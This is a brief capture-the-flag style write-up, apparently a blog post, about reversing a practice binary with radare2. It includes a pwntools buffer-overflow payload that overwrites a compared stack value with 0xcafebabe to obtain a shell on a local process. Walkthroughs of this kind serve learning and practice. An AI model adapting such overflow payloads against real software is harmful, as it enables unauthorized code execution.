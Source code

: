 
#Solving random challenge for practicing radare2

will add binary soon. <br />
let's div in... <br />
<br />
starting it with `AAA` to analyze all and then `pdf @main`
then we see following.

![](https://github.com/0x7EVEN/Blogs/blob/main/images/Buffer/boi/3.png?raw=true)

as we see this is not our input so we need to somehow bypass this check or modify the value.<br/>

by analyzing variables in stack we see there is some mismatch in buffer of input and distance in address.<br/>
hmm , now we make payload 
```python3
from pwn import *
p = process("./bine")
payload  = "0"*0x14 + "\xee\xba\xf3\xca" #little endien
p.send(payload)

p.interactive()
```
and we got shell...

![shell](https://github.com/0x7EVEN/Blogs/blob/main/images/Buffer/boi/9.png?raw=true)
